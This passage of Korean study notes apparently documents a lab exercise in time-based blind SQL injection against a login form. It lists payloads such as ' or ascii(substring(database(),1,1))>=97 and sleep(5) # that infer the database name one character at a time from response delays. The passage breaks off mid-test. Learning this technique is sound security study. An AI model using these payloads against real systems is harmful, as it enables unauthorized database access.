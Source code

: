     ![화면 캡처 2022-11-01 162302](../../assets/img/화면 캡처 2022-11-01 162302.png)

    ![화면 캡처 2022-11-01 162412](../../assets/img/화면 캡처 2022-11-01 162412.png)

    

  - 소문자인가?

    ```
    ID : ' or ascii(substring(database(),1,1))>=97 and sleep(5) #
    PASS : 아무거나
    
    결과) 로그인 실패 창이 빨리 뜬다 - 거짓 > 소문자가 아니다
    ```

    ![화면 캡처 2022-11-01 163357](../../assets/img/화면 캡처 2022-11-01 163357-1667288072511-12.png)

    ![화면 캡처 2022-11-01 162412](../../assets/img/화면 캡처 2022-11-01 162412-1667288161827-14.png)

  - 특정 알파벳보다 아스키코드가 큰가? (M)

    ```
    ID : ' or ascii(substring(database(),1,1))>=77 and sleep(5) #
    PASS : 아무거나 
    
    결과)  로그인 실패 창이 늦게 뜬다 - 참 
    ```

    ![화면 캡처 2022-11-01 163756](../../assets/img/화면 캡처 2022-11-01 163756.png)

    ![화면 캡처 2022-11-01 162412](../../assets/img/화면 캡처 2022-11-01 162412-1667288575627-18.png)

  - S보다 큰가 ?

    ```
    ID : ' or ascii(substring(database(),1,1))>=83 and sleep(5) #
    PASS : 아무거나
    
    결과)  로그인 실패 창이 늦게 뜬다 - 참 
    ```

    ![화면 캡처 2022-11-01 164104](../../assets/img/화면 캡처 2022-11-01 164104.png)

    ![화면 캡처 2022-11-01 162412](../../assets/img/화면 캡처 2022-11-01 162412-1667288579686-20.png)

    

  - V,X 도 테스트

    ```
    V 보다  같거나 큰가 ?
    ID : ' or ascii(substring(database(),1,1))>=86 and sleep(5) #
    PASS : 아무거나 
    
    결과)  로그인 실패 창이 늦게 뜬다 - 참 
    
    X보다 같거나 큰가 ?
    ID : ' or ascii(substring(database(),1,1))>=88 and sleep(5) #
    PASS : 아무거나 
    